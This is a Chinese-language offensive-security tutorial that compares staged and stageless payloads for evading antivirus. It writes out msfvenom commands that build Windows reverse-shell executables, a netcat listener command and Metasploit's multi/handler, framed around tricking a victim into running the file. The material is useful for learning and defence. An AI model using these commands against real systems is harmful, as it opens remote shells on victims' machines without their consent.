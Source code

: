 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [buaq.net](https://buaq.net/go-103635.html)

> Staged vs Stageless 有效载荷，当涉及到 AV 规避时，这是一个有趣的话题；它提出了 “拥有更多基于网络的工件还是基于主机更好？” 的旧论点。

前言
--

Staged vs Stageless 有效载荷，当涉及到 AV 规避时，这是一个有趣的话题；它提出了 “拥有更多基于网络的工件还是基于主机更好？” 的旧论点。

剧透警告：没有正确或错误的答案。

对于那些不知道分阶段或无阶段有效载荷是什么的人，不要害怕！我们将对此进行介绍，并通过一些实际练习来展示其中的不同之处，以便您可以跟随并学习一些东西！

什么是无阶段有效载荷？
-----------

无阶段有效负载是最容易理解的有效负载类型，它包含获得反向 shell 回调所需的一切。因此，与分阶段相比，文件大小通常要大得多，并且程序相对复杂。可以通过侦听原始套接字来捕获此有效负载。您可以在 Netcat、Python、Socat 等中创建监听器。

img

在图中，我们上面的受害者被欺骗运行 stageless.exe，并且攻击者通过 TCP/1337 接收到他们的 Netcat 侦听器的回调。

从技术角度来看，它是这样的：

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFvr8fvf8HYY0y1jlRaIYC84lrrcOthVjc1aD1NA6lnYukmPia3f4WEmIw/640?wx_fmt=png)_攻击者使用 msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=1337 -f exe -o shell.exe 生成无阶段负载_

接下来，攻击者将在他们之前指定的端口上启动一个 netcat 监听器。

_攻击者执行 nc -lvp 1337 开始监听 TCP/1337_

然后，受害机器运行无阶段负载，为攻击者提供反向 Shell。![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFv6QaqyVzbIcibAWicEYImk9s1IORiaS34lfFgicTIpc5P3XYtBzUoznkJWA/640?wx_fmt=png)

对于科学而言，将 MSFVenom 生成的无阶段负载上传到病毒总检测次数为 55/68（上传时）：

https://www.virustotal.com/gui/file/f5859bd4645822e28d30c8981aef49a2f9a0e6ad59d3b753500b1382d53687bb?nocache=1

_注意：我的 Eth0 接口已重命名为 br0 (bridge0)。_

什么是分段有效载荷？
----------

分阶段有效负载稍微复杂一些，因为它必须向另一个设备发送信标（初始可执行文件通常称为 “Dropper”）才能接收第二个 “阶段”，其中包含更完整和完整的程序。有时这可能只是 shellcode，有时它可能是一个完全独立的模块，比如 Mimikatz。由于涉及额外的交互，它需要一个 “Hander”。Metasploit 框架为此提供了一个名为 exploit/multi/handler 的模块。重要的是要知道这可以用来捕获分阶段和无阶段有效负载。

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFv6eETicz3sdOGibIGNKYV1icpnCOFFNQDn3bIJQKaWicoWNjibeCWZslBNXw/640?wx_fmt=png)img

在上图中，我们的受害者被诱骗运行 dropper，它向我们的 C2 服务器发送信标以接收第二阶段，然后将其注入并在内存中执行，这会触发反向 shell 回调。

这是从技术方面看的样子

_攻击者使用 msfvenom -p windows/shell/reverse_tcp LHOST=br0 LPORT=1337 -f exe -o staged.exe 生成分阶段有效负载_

接下来，攻击者需要启动一个处理程序，在我们的例子中，我们使用 Metasploit 的 exploit/multi/handler 模块。

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFvKmqDb9kxicdZqYvx9RzfAQeOJLickBmAz3uZdSOfcyZhWW9pAFoCTXBw/640?wx_fmt=png)img
